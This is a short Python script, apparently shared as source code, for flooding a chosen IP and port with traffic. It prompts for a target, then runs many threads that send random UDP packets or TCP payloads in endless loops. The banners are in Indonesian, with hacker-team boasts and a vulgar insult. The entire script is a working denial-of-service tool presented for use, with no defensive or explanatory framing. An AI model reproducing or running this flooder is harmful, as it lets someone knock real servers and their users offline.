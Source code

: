 #!/usr/bin/env python3
import random
import socket
import threading

print       (" - - > Lord DerZ nih dek!! < - - ")
print       (" - - > DerZ Nih Dek!!!! < - - ")
print       (" - - > Join DerZ Team <- - ")                                   
print       (" - - > Rename Pm Gw !! < - - ")
print       (" - - > DerZ Nih dek  < - - ")
print       (" - - > Tuh link nya Join!! < - - ")
print       (" - - >  DERZ TEAM KATA ILHAM  < - - ")
    
ip = str(input("  IP/HOST:"))
port = int(input(" PORT:"))
choice = str(input(" SERIUS NIHH MAU NYERANG HA ? (y/n):"))
times = int(input(" PAKET NYA MAU BERAPA NIEH:"))
threads = int(input(" MAU BERAPA PELOR NIEH:"))
def run():
	data = random._urandom(1000)
	i = random.choice(("[+]","[-]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Paket From Lord Xinzu!!! ")
		except:
			print("[!] Down Kontol!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Paket From Lord Xinzu!!! ")
		except:
			s.close()
			print("[*] Down Kontol!!!")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()                                             
